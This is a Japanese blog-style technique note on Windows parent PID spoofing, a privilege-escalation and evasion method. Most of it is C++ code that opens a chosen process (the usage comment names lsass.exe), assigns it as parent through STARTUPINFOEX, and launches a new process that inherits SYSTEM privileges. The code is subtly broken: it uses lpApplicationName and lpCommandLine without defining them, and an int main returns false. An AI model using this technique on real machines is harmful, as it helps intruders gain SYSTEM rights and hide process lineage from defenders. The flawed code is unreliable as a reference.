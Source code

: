 ```yaml
---
title: Parent-PID-Spoofing
date: 2021-01-24
categories: [Windows, Technique, Privilege Escalation]
tags: [Windows, Privilege Escalation]
---
```


新しく作成されるプロセスには作成元の親プロセスがあります。
例えば、普通にnotepad(子プロセス)を開けば、explorerが親プロセスになります。

## Escalation
子プロセスは親プロセスの設定を引き継ぎます。
なので、`nt authority\system`権限で作成されているプロセスの子プロセスとして作成することで子プロセスも同じ権限で作成することができます。

### STARTUPINFOEX
[STARTUPINFO](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa)の拡張で[STARTUPINFOEX](https://docs.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexa)があります。
これを使うことで新しく作成するプロセスの親プロセスを指定することが可能です。

### Flow
1. [InitializeProcThreadAttributeList](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist): 属性リストの初期化
1. [UpdateProcThreadAttribute](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute): 属性リストの更新
1. [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa): プロセスを作成

### Code
```cpp
#include <Windows.h>

typedef struct _PROC_THREAD_ATTRIBUTE_ENTRY
{
	DWORD_PTR   Attribute;
	SIZE_T      cbSize;
	PVOID       lpValue;
} PROC_THREAD_ATTRIBUTE_ENTRY, * LPPROC_THREAD_ATTRIBUTE_ENTRY;

typedef struct _PROC_THREAD_ATTRIBUTE_LIST
{
	DWORD                          dwFlags;
	ULONG                          Size;
	ULONG                          Count;
	ULONG                          Reserved;
	PULONG                         Unknown;
	PROC_THREAD_ATTRIBUTE_ENTRY    Entries[ANYSIZE_ARRAY];
} PROC_THREAD_ATTRIBUTE_LIST, * LPPROC_THREAD_ATTRIBUTE_LIST;

// Using: main.exe <Process id of lsass.exe>
int main(int argc, char* argv[]) {
  DWORD parentProcessId{ atoi(argv[1]) };
  LPSTARTUPINFOEXA lpsiex{ new STARTUPINFOEXA() };
  LPPROCESS_INFORMATION lppi{ new PROCESS_INFORMATION() };
  PSIZE_T lpSize{ new SIZE_T() };
  bool success{ false };

  SecureZeroMemory(lpsiex, sizeof(*lpsiex));
  SecureZeroMemory(lppi, sizeof(*lppi));

  success = InitializeProcThreadAttributeList(NULL, 1, 0, lpSize);
  if (success || *lpSize == 0)
    return false;

  lpsiex->lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, *lpSize);
  if (lpsiex->lpAttributeList == nullptr) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  success = InitializeProcThreadAttributeList(lpsiex->lpAttributeList, 1, 0, lpSize);
  if (!success) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  HANDLE hProcess{ OpenProcess(MAXIMUM_ALLOWED, FALSE, parentProcessId) };
  if (!hProcess) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  success = UpdateProcThreadAttribute(
    lpsiex->lpAttributeList,
    0,
    PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
    &hProcess,
    sizeof(hProcess),
    nullptr,
    nullptr
  );

  lpsiex->StartupInfo.cb = sizeof(*lpsiex);

  bool result = CreateProcessA(
    lpApplicationName,
    lpCommandLine,
    nullptr,
    nullptr,
    false,
    EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE,
    nullptr,
    nullptr,
    &lpsiex->StartupInfo,
    lppi
  );

  if (lppi->hThread)
    CloseHandle(lppi->hThread);
  if (lppi->hProcess)
    CloseHandle(lppi->hProcess);
  HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
  return result;
}
```